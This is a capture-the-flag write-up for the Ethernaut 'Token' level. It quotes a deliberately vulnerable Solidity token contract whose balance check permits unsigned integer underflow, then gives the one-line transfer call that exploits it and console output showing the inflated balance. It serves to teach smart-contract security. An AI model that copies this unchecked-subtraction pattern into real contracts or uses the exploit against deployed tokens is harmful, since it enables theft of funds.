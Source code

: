 ```yaml
---
title: "Token"
tags: ["Underflow"]
reference: https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407
---
```


# Description

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

# Solution

1. unsigned integer underflow attack

```
contract.transfer(instance, 30)
```

2. check balance of player

```
await contract.balanceOf(player)
i {negative: 0, words: Array(11), length: 10, red: null}
length
: 
10
negative
: 
0
red
: 
null
words
: 
Array(11)
0
: 
67108833
1
: 
67108863
2
: 
67108863
3
: 
67108863
4
: 
67108863
5
: 
67108863
6
: 
67108863
7
: 
67108863
8
: 
67108863
9
: 
4194303
```
